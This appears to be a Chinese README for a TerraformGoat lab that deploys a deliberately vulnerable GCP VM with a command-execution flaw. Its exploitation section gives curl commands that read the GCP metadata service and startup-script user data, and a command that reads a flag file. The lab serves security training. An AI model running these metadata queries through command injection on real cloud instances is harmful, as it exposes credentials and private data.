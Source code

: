 # GCP VM 命令执行漏洞环境

[English](./README.md) | 中文

## 描述信息

这是一个用于构建 GCP VM 命令执行漏洞环境的靶场。

使用 Terraform 构建环境后，用户可以通过命令执行漏洞获取到 VM 上的元数据、用户数据等信息。

## 环境搭建

通过以下命令进行 gcp 身份认证，在[服务账户](https://console.cloud.google.com/projectselector2/iam-admin/serviceaccounts?supportedpurview=project)处生成一个密钥文件，将密钥复制到容器中进行身份认证

```shell
docker cp key.json terraformgoat:/terraformgoat # 在宿主机中运行
docker exec -it terraformgoat /bin/bash  # 在宿主机中运行
gcloud auth activate-service-account --key-file key.json # 在容器中运行
```

在容器中执行以下命令

```shell
cd /TerraformGoat/gcp/elastic_computing_service/vm_command_execution
```

编辑 `terraform.tfvars` 文件，在文件中填入你的 `gcp project id`

```shell
vim terraform.tfvars
```

部署靶场

```shell
terraform init
terraform apply
```

> 在终端提示 `Enter a value:` 时，输入 `yes` 即可

![img](../../../images/1652174499.png)

环境搭建完后，在 Outputs 处可以看到靶场的访问地址，打开浏览器访问即可

> 由于靶场搭建需要一定时间，因此如果浏览器访问不到，可以等待 1-2 分钟后再访问试试。

## 漏洞利用

在存在命令执行漏洞的 VM 上，我们可以利用命令执行获取 VM 的元数据、用户数据等信息。

读取元数据

```shell
curl "http://metadata.google.internal/computeMetadata/v1/" -H "Metadata-Flavor: Google"
```

![img](../../../images/1652174820.png)

读取用户数据

> 前提是目标已经配置了用户数据

```shell
curl "http://metadata.google.internal/computeMetadata/v1/instance/attributes/startup-script" -H "Metadata-Flavor: Google"
```

![img](../../../images/1652175230.png)

在用户数据信息中，可以看到在靶场的根目录下有个 flag 文件，尝试利用命令执行读取这个文件

```shell
cat /flag69152201.txt
```

![img](../../../images/1652094243.png)

成功读取到 flag 文件

## 销毁环境

```shell
terraform destroy
```
